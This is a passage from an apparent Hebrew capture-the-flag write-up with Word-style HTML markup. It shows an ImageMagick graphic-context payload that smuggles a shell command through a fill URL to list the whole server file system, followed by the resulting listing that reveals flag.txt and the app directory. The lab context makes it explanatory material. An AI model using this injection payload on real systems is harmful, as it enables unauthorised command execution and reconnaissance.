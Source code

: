dir=RTL></span>, ולכן אפשר להשתמש בשיטה הראשונה כדי לקבל את הקוד כולו כקובץ
טקסט. אולם, הדגל לא נמצא שם).</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>כעת ננסה לסייר בעץ
התיקיות באמצעות הפקודה הבאה:</span></p>

```svg
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|ls -alR />/tmp/e2.txt;")'
pop graphic-context
```

<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>התוצאה היא מבנה
התיקיות השלם של השרת. </span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>&nbsp;</span></p>
<p class=MsoNormal dir=RTL style='text-align:right;direction:rtl;unicode-bidi:
embed'><span lang=HE style='font-family:"Arial",sans-serif'>למשל:</span></p>

```
/:
total 1208
drwxr-xr-x   1 root root    4096 Aug 29 13:52 .
drwxr-xr-x   1 root root    4096 Aug 29 13:52 ..
-rwxr-xr-x   1 root root       0 Aug 29 13:52 .dockerenv
dr-xr-xr-x   1 root root    4096 Aug 29 13:52 app
drwxr-xr-x   1 root root    4096 Aug 29 13:45 bin
drwxr-xr-x   2 root root    4096 Jun 26 12:03 boot
drwxr-xr-x   5 root root     340 Sep  4 18:54 dev
drwxr-xr-x   1 root root    4096 Aug 29 13:52 etc
-r-xr-xr-x   1 root root      23 Aug 29 12:17 flag.txt
drwxr-xr-x   1 root root    4096 Aug 29 13:52 home
drwxr-xr-x   1 root root    4096 Aug 29 13:45 lib
drwxr-xr-x   2 root root    4096 Jul 16 00:00 lib64
drwxr-xr-x   2 root root    4096 Jul 16 00:00 media
drwxr-xr-x   2 root root    4096 Jul 16 00:00 mnt
drwxr-xr-x   2 root root    4096 Jul 16 00:00 opt
dr-xr-xr-x 305 root root       0 Sep  4 18:54 proc
drwx------   1 root root    4096 Aug 29 13:52 root
drwxr-xr-x   3 root root    4096 Jul 16 00:00 run
drwxr-xr-x   2 root root    4096 Jul 16 00:00 sbin
drwxr-xr-x   2 root root    4096 Jul 16 00:00 srv
dr-xr-xr-x  13 root root       0 Sep  5 07:14 sys
drwxrwxrwt   1 root root 1155072 Sep 24 07:59 tmp
drwxr-xr-x   1 root root    4096 Jul 16 00:00 usr
drwxr-xr-x   1 root root    4096 Jul 16 00:00 var
 
/app:
total 20
dr-xr-xr-x 1 root root 4096 Aug 29 13:52 .
drwxr-xr-x 1 root root 4096 Aug 29 13:52 ..
-r-xr-xr-x 1 root root 3663 Aug 27 10:40 app.py
-r-xr-xr-x 1 root root   14 Aug 27 10:40 requirements.txt
dr-xr-xr-x 1 root root 4096 Aug 29 13:52 templates
```
